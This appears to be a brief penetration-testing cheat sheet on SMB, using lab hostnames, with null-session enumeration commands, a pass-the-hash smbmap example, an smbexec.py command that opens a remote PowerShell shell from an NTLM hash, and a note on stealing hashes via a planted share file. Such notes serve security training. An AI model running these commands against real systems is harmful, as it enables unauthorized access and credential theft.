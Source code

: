 # SMB

## Null Session

**smbmap**:

```
 smbmap -H querier.htb -u anonymous -d localhost
```

Use the -R flag to recursively list everything.

**smbclient**:&#x20;

```
smbclient -L \querier.htb
```

Enter any password or supply the `--no-pass` flag.

## Pass The Hash

The NTLM hash of a user’s password is used in the NTLM challenge-response authentication protocol. Therefore, if you know the user’s NTLM hash, you can impersonate that user for services that rely on NTLM challenge-response.

Smbmap to enumerate an SMB share:

```
smbmap -u USERNAME -p 0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B -H HOST
```

_Note: If you just have the NT hash, then you can just input the NT hash twice. No one really checks the LM hash anyways._

Execute commands over SMB (requires write permissions):

```
smbexec.py jeeves/Administrator@jeeves.htb -hashes "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00" -shell-type "powershell"
```

## NTLM Hash Theft

If you have access to a network share, then you can drop a file in there that will result in a user's NTLM hash being stolen when they navigate to that share.&#x20;

TODO: Link main article in post exploitation

